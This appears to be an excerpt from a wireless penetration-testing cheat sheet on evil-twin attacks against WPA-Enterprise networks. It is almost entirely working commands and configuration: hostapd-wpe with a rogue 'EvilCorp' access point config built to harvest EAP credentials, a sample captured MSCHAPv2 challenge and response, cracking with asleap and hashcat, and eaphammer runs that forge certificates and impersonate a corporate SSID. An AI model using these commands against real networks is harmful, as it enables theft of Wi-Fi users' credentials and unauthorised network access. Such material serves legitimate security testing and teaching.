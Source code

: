 ```
apt install hostadp-wpe
ifconfig wlan1 down
hostapd-wpe ./evilhostapd.conf

username: jdoe
    challenge: bc:87:6c:48:37:d3:92:6e
    response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

evilhostapd.conf configuration file
```
interface=wlan1
ssid=EvilCorp
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
```

hostapd.eap.user
```
* PEAP,TTLS,TLS,MD5,GTC
"t" TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP "1234test" [2]
```

Cracking the NetNTLM challenge using **asleap** or **hashcat**.  
```
asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist 
./hashcat64.bin -a 0 -m 5500 hash.txt dictionary.txt -r rule.txt
```

#### Eaphammer
Create an identical fake certificate for authentication server.
```
./eaphammer --cert-wizard
```

Execute evil twin attack on channel 4 against CORPOWIFI SSID
```
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CORPOWIFI --creds
/eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CORPOWIFI --creds --negotiate weakest
```
